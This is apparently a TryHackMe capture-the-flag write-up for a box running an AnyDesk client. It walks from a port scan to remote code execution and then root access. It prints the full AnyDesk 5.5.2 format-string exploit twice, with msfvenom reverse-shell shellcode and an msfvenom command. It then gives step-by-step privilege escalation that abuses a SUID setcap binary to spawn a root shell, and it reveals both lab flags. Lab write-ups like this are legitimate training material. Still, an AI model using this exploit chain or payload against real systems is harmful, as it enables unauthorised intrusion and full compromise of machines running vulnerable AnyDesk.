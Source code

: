 ﻿# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 7070 | SSL     |

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```




# RECONNAISSANCE
---

In this case, we are not dealing with a web application but, we have something interesting running on port `7070`, if we take a look at the port scan we can find:

```
AnyDesk Client
```

Let's search for an exploit regarding this:


![Pasted image 20250610124643.png](../../IMAGES/Pasted%20image%2020250610124643.png)

The first ones talked about `CVE-2024-12754` but, the one we are interested in is the `AnyDesk 5.5.2` RCE, let's check it out:


![Pasted image 20250610124748.png](../../IMAGES/Pasted%20image%2020250610124748.png)

Ok, we got a python exploit on here, let's proceed to exploitation:



# EXPLOITATION
---

Let's get the exploit to our machine:

Link: https://www.exploit-db.com/exploits/49613

First of all, once we get the exploit, we can see this:

```PYTHON
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '192.168.x.x'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
shellcode += b"\x1d\xc4\x43\x40\x6c\xed\xa4\xe0\xfb"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

We need to craft our own shellcode, let's use `msfvenom` for it:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Once we get our shellcode, we need to replace it on the script, we also need to change the `IP`  to match the THM machine's IP, final script should look similar to this one:

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '10.10.90.151'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x87\x2a\x88"
shellcode += b"\xed\x17\xae\x2b\x46\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xed\x03\xd0\x74\x7d"
shellcode += b"\xac\x74\x2c\x86\x74\x87\xe8\x5f\x39\x63\xff"
shellcode += b"\x85\x2a\x99\xb1\x1d\xa0\x3e\x5a\xd6\x62\x01"
shellcode += b"\x0b\x7d\xbe\x71\x2c\xad\x72\x87\xe8\x7d\xad"
shellcode += b"\x75\x0e\x78\xe4\xe2\xcc\x4f\xa1\x2e\x33\x71"
shellcode += b"\x40\xb3\xb5\x8e\xe6\x90\x69\xe5\x43\xe6\xc2"
shellcode += b"\x64\xc6\x2b\x15\xcf\xa3\x6f\xbf\x40\xe6\xa2"
shellcode += b"\xa0\x88\x2f\x88\xed\x17\xae\x2b\x46"

print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

Now, set up a listener and execute the exploit with `python2`:

![Pasted image 20250610125955.png](../../IMAGES/Pasted%20image%2020250610125955.png)

We got our shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


First of all, let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250610130506.png](../../IMAGES/Pasted%20image%2020250610130506.png)

Time to use `linpeas`:

![Pasted image 20250610130840.png](../../IMAGES/Pasted%20image%2020250610130840.png)

As seen, we got an unknown SUID binary, this is the `setcap` binary, The `setcap` binary allows setting file capabilities with root privileges. By granting `cap_setuid` capability to a malicious binary we control, we can escalate to root when executing it.

Let's do it, for this, we can go with different ways to escalate our privileges, in this case, we will do it with python.

**Copy the Python interpreter** to a writable location:

```python
cp $(which python3) /tmp/mypython
```

**Grant `cap_setuid` capability** to the copied Python binary:

```python
/sbin/setcap cap_setuid+ep /tmp/mypython
```

**Create a Python script** to spawn a root shell:

```python
cat <<EOF > /tmp/rootme.py
import os
os.setuid(0)
os.system("/bin/bash")
EOF
```

**Make the script executable**:

```bash
chmod +x /tmp/rootme.py
```

**Run the script** with your privileged Python binary:

```
/tmp/mypython /tmp/rootme.py
```

![Pasted image 20250610131649.png](../../IMAGES/Pasted%20image%2020250610131649.png)

As seen, we get a root shell exploiting the root capabilities we assigned, let's get both flags:

```
root@desktop:/tmp# cat /home/annie/user.txt
THM{N0t_Ju5t_ANY_D3sk}

root@desktop:/tmp# cat /root/root.txt
THM{0nly_th3m_5.5.2_D3sk}
```

## Fun Fact
---

As a fun fact, this box included a 1 month voucher for the blood taker:

![Pasted image 20250610131926.png](../../IMAGES/Pasted%20image%2020250610131926.png)


![Pasted image 20250610131827.png](../../IMAGES/Pasted%20image%2020250610131827.png)

